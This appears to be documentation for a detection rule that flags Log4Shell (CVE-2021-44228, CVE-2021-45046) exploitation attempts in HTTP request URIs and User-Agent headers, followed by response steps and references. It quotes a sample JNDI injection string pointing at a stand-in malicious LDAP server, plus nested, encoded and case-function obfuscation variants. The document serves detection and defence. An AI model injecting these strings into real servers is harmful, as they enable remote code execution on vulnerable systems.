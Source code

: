 ## Overview

Detect when a web server received requests containing Log4j/Log4Shell exploitation patterns (CVE-2021-44228, CVE-2021-45046). This detection focuses on identifying attempts to exploit a critical remote code execution vulnerability in the widely-used Log4j Java logging framework.

The Log4Shell vulnerability exploits Log4j's JNDI (Java Naming and Directory Interface) lookup functionality, which allows for dynamic loading of Java classes. When Log4j logs a string containing a JNDI lookup expression (like `${jndi:ldap://malicious-server/payload}`), it attempts to resolve the reference, potentially executing arbitrary code from a remote source. Attackers typically inject these JNDI expressions into fields that are likely to be logged, such as HTTP headers, form fields, and URL parameters.

Multiple variations of the attack exist, including obfuscation techniques to bypass detection, such as nested expressions, HTML entity encoding, and using string manipulation functions within the JNDI expression. This detection identifies both simple and sophisticated attack attempts by scanning for common JNDI injection patterns in HTTP request URIs and User-Agent headers, including standard patterns (`${jndi:...}`), nested expressions (`${${...}}`), encoded variants (`&dollar;{jndi:...}`), and obfuscated patterns using Log4j's lookup features (`${lower:${upper:j}ndi}`).

When this detection triggers, security teams should immediately isolate affected systems if possible, check if the exploitation attempt was successful by looking for unusual outbound connections or newly created files, update all Log4j installations to patched versions (2.17.0 or newer), implement web application firewall rules to block JNDI lookup patterns, scan all applications and dependencies for Log4j vulnerabilities, and enhance logging to identify potential compromises. While this detection may occasionally trigger on security scanning or legitimate applications using ${} syntax in parameters, these cases are extremely rare in normal web traffic.

**References**:
- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046)
- [OWASP: Log4j Security Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities)
- [CISA Alert: Log4j Vulnerabilities](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-356a)
- [MITRE ATT&CK: Command and Scripting Interpreter (T1059)](https://attack.mitre.org/techniques/T1059/)